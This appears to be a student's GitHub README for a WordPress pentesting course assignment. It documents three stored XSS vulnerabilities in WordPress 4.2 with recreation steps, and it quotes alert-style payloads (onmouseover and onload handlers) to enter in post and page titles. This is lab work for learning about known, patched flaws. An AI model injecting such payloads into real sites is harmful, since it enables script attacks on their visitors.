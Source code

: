 # Project 7 - WordPress Pentesting

Time spent: **12** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID : WPVDB ID 7945
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [X] GIF Walkthrough: https://imgur.com/mBhEwaf
  - [X] Steps to recreate: 
    - Create a new post and in the title type in
    - <"beginnig tag">a href = " " onmouseover = "alert('XSS!'); ">exploit 1 (xss)<"end tag">
    - Make sure to put the beginning and end tags (<"a"> <"/a">)
    - Do not add the quotes for the tags
    - Then view the post and hover over the title of the post and the XSS attack will occur
  - [ ] Affected source code:
2. (Required) Vulnerability Name or ID WPVDB ID 7979
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [X] GIF Walkthrough: https://imgur.com/6vrcc1Z 
  - [X] Steps to recreate: 
    - Create a new page and in the title type in <BODY ONLOAD=alert('XSS')>
    - Then view the page and the XSS attack will occur
  - [ ] Affected source code:
3. (Required) Vulnerability Name or ID WPVDB 8111
  - [X] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [X] GIF Walkthrough: https://imgur.com/4dcmb4n
  - [X] Steps to recreate: 
    - Create a new page and in the title type in <"beginning tag">a href="INSERT AN IMAGE "><img class="alignnone size-full wp-image-38" src=" INSERT AN IMAGE " alt=" NAME OF IMAGE " onmouseover = "alert('XSS ATTACK!')" width="259" height="194" /><"end tag">
    - Make sure to put the beginning and end tags (<"a"> <"/a">)
    - Do not add the quotes for the tags
    - Then hover over the image and the XSS attack will occur
  - [ ] Affected source code:

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2019] [Samul Lee]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
